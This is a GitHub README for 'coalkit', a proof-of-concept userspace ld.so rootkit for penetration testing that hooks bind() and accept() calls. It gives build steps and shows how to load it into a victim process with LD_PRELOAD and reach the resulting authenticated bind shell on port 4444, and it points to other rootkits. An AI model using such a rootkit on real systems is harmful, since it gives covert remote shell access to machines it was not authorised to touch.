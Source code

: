 # coalkit
Coalkit is an attempt at a Proof-of-Concept for a penetration testing oriented userspace ld.so rootkit by hooking bind() and eventually accept() system calls. See the relevent blog post (link pending). Initially written in Go, but that is subject to change anytime, mostly because [this issue](https://github.com/golang/go/issues/16843) causes prevention of boot time loading of the Go library in `ld.so.preload`.

## NOTES
WARNING!!!: Do not use this except for learning, it is extremely unstable, untested, and incomplete. This should be considered a "tech preview" for the longer term project, it contains very little of the big *wanted* features.

## Building
* Edit `config.mk` to match the expected configuration
* Compile and generate keypairs: `make`
* Run the victim process with the shared object being loaded: `LD_PRELOAD=./coalkit python3 -m http.server`
* The process should run as normal and a new bind shell running the mutually authenticated keys with the [NoiseSocket](https://noiseprotocol.org/specs/noisesocket.html) protocol backing it. Access it with the client shell program: `./coal -i id-srv -k id-cli 127.0.0.1:4444`

An example of a fully hooked process with debugging enabled can be seen below:
![coal example](resources/coal-example.png "coal example")

## References
* [Jynx2](https://github.com/chokepoint/Jynx2)
* [Azazel](https://github.com/chokepoint/azazel)
* [mfontanini's kmod](https://github.com/mfontanini/Programs-Scripts/blob/master/rootkit/rootkit.c)
* [Matt Bostock's prior Go work](https://blog.gopheracademy.com/advent-2015/libc-hooking-go-shared-libraries/) - huge shout out for the net/textproto and dl libraries examples
